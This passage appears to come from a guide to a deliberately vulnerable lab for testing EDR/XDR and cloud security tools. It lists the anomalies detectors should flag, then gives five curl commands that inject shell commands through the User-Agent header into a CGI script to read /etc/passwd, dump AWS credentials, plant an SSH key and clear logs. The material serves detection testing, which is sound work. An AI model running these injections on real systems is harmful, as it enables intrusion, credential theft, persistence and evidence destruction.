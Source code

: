 ### Expected Stage 2 Detection

Your EDR/XDR and behavioral monitoring should detect:

#### **Network Anomalies**
- Suspicious HTTP User-Agent headers containing shell code
- Unusual CGI script execution patterns
- Command injection signatures in HTTP traffic
- Outbound connections from web services

#### **Process Anomalies**
- Shell execution from web server processes (apache2, www-data)
- Unusual process chains (apache → bash → system commands)
- File access patterns outside normal web service behavior
- Privilege enumeration activities

#### **File System Anomalies**
- Access to sensitive system files (/etc/passwd, /etc/shadow)
- Reading credential files outside normal application flow
- Directory enumeration in sensitive locations
- Temporary file creation in unusual locations

#### **Behavioral Patterns**
- Command execution sequence indicating reconnaissance
- Credential harvesting followed by privilege escalation attempts
- Lateral movement simulation (CIEM testing)
- Persistence establishment attempts

## Advanced Attack Chain Testing

### Test 1: Complete Attack Simulation
**Objective**: Test CSPM's ability to detect and correlate a full attack chain

**Attack Scenario**:
```bash
# Phase 1: Initial Compromise (T1190 - Exploit Public-Facing Application)
curl -H "User-Agent: echo 'INITIAL_COMPROMISE_$(date)' > /tmp/.attack_marker" \
     http://$TARGET_IP/cgi-bin/exec.cgi

# Phase 2: Discovery (T1083 - File and Directory Discovery)
curl -H "User-Agent: /bin/cat /etc/passwd && /bin/ps aux && /bin/netstat -tlpn" \
     http://$TARGET_IP/cgi-bin/exec.cgi

# Phase 3: Credential Access (T1552.001 - Credentials In Files)
curl -H "User-Agent: /bin/cat /opt/cnappuccino/secret/aws_creds.txt" \
     http://$TARGET_IP/cgi-bin/exec.cgi

# Phase 4: Persistence (T1098 - Account Manipulation)
curl -H "User-Agent: /bin/echo 'attacker_key' >> /home/admin/.ssh/authorized_keys" \
     http://$TARGET_IP/cgi-bin/exec.cgi

# Phase 5: Defense Evasion (T1070 - Indicator Removal on Host)
curl -H "User-Agent: /bin/rm -f /var/log/apache2/access.log.1 && echo > /var/log/auth.log" \
     http://$TARGET_IP/cgi-bin/exec.cgi
```
